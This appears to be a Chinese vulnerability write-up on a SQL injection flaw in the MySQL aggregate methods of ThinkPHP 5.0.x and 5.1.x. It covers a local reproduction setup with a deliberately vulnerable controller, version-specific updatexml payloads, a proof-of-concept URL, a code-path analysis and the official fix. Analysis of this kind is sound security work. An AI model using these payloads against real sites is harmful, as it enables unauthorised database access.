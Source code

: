 5.0.0 \<= Thinkphp \<= 5.0.21 & 5.1.3\<=ThinkPHP5\<=5.1.25
==========================================================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（所有 **Mysql**
聚合函数相关方法均存在注入）。本次漏洞存在于所有 **Mysql**
聚合函数相关方法。由于程序没有对数据进行很好的过滤，直接将数据拼接进
**SQL** 语句，最终导致 **SQL注入漏洞** 的产生。

漏洞概要
--------

二、漏洞影响
------------

5.0.0\<=ThinkPHP\<=5.0.21

5.1.3\<=ThinkPHP5\<=5.1.25

三、复现过程
------------

不同版本 **payload** 需稍作调整：

 **5.0.0\~5.0.21** 、 **5.1.3～5.1.10** ：

    id)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

**5.1.11～5.1.25** ：

    id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

漏洞环境
--------

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think=5.1.25 tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.6.0",
        "topthink/framework": "5.1.25"
    },

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $options = request()->get('options');
            $result = db('users')->max($options);
            var_dump($result);
        }
    }

在 **config/database.php** 文件中配置数据库相关信息，并开启
**config/app.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );
    insert into users(id,username) values(1,'Mochazz');
    insert into users(id,username) values(2,'Jerry');
    insert into users(id,username) values(3,'Kitty');

### poc

    http://localhost:8000/index/index/index?options=id`)%2bupdatexml(1,concat(0x7,user(),0x7e),1) from users%23

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](resource/5.1.3=ThinkPHP5=5.1.25sql注入漏洞/media/rId27.png)

### 漏洞分析

首先在官方发布的 **5.1.26** 版本更新说明中，发现其中提到该版本包含了一个安全更新。

![2.png](resource/5.1.3=ThinkPHP5=5.1.25sql注入漏洞/media/rId29.png)

我们可以查阅其 **commit** 记录，发现其改进了数据库驱动，代码中多了检测特殊字符的片段。接下来我们直接来分析代码。

![3.png](resource/5.1.3=ThinkPHP5=5.1.25sql注入漏洞/media/rId30.png)

首先，用户可控数据未经过滤，传入 **Query** 类的 **max**
方法进行聚合查询语句构造，接着调用本类的 **aggregate**
方法。本次漏洞问题正是发生在该函数底层代码中，所以所有调用该方法的聚合方法均存在
**SQL注入** 问题。我们看到 **aggregate** 方法又调用了 **Mysql** 类的
**aggregate** 方法，在该方法中，我们可以明显看到程序将用户可控变量
**\$field** ，经过 **parseKey** 方法处理后，与 **SQL**
语句进行了拼接。下面我们就来具体看看 **parseKey** 方法。

![4.png](resource/5.1.3=ThinkPHP5=5.1.25sql注入漏洞/media/rId31.png)

**parseKey**
方法主要是对字段和表名进行处理，这里只是对我们的数据两端都添加了反引号。经过
**parseKey** 方法处理后，程序又回到了上图的 **\$this-\>value()**
方法中，该方法会调用 **Builder** 类的 **select** 方法来构造 **SQL**
语句。这个方法应该说是在分析 **ThinkPHP**
漏洞时，非常常见的了。其无非就是使用 **str\_replace** 方法，将变量替换到
**SQL** 语句模板中。这里，我们重点关注 **parseField**
方法，因为用户可控数据存储在 **\$options\[\'field\'\]**
变量中并被传入该方法。

![5.png](resource/5.1.3=ThinkPHP5=5.1.25sql注入漏洞/media/rId32.png)

进入 **parseField** 方法，我们发现用户可控数据只是经过 **parseKey**
方法处理，并不影响数据，然后直接用逗号拼接，最终直接替换进 **SQL**
语句模板里，导致 **SQL注入漏洞** 的发生

![6.png](resource/5.1.3=ThinkPHP5=5.1.25sql注入漏洞/media/rId33.png)

### 漏洞修复

官方的修复方法是：当匹配到除了 **字母、点号、星号**
以外的字符时，就抛出异常。

![3.png](resource/5.1.3=ThinkPHP5=5.1.25sql注入漏洞/media/rId35.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![7.png](resource/5.1.3=ThinkPHP5=5.1.25sql注入漏洞/media/rId37.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
